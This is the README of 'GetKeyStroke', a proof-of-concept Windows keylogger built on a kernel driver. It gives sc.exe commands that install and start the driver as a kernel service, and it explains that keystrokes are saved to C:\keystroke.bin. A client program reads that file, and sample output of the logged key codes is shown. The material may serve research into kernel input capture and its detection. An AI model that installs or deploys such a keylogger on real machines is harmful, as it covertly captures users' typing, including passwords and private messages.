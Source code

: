 # GetKeyStroke

PoCs to log keyboard action with kernel driver.

## Installation

```
PS C:\> sc.exe create GetKeyStroke type= kernel binpath= C:\Dev\GetKeyStrokeDrv_x64.sys
PS C:\> sc.exe start GetKeyStroke
```

## Client Program Usage

`GetKeyStrokeDrv.sys` stores logged keyboard actions to `C:\keystroke.bin`, and client program read and parse it.
If `C:\keystroke.bin` was not found, this client program wait for log file creation by the kernel driver.
Simply execute as follows:

```
PS C:\Dev> .\GetKeyStrokeClient.exe
[*] C:\keystroke.bin is not found. Waiting for creation.
[*] Log file is opened successfully.

[2024/12/25 01:22:56] Unit ID - 0; Key Code - 0x002A; Action - MAKE
[2024/12/25 01:22:56] Unit ID - 0; Key Code - 0x0028; Action - MAKE
[2024/12/25 01:22:56] Unit ID - 0; Key Code - 0x0028; Action - BREAK
[2024/12/25 01:22:56] Unit ID - 0; Key Code - 0x002A; Action - BREAK
[2024/12/25 01:22:59] Unit ID - 0; Key Code - 0x0025; Action - MAKE
[2024/12/25 01:22:59] Unit ID - 0; Key Code - 0x0025; Action - BREAK

--snip--
```

![](./figures/GetKeyStroke.png)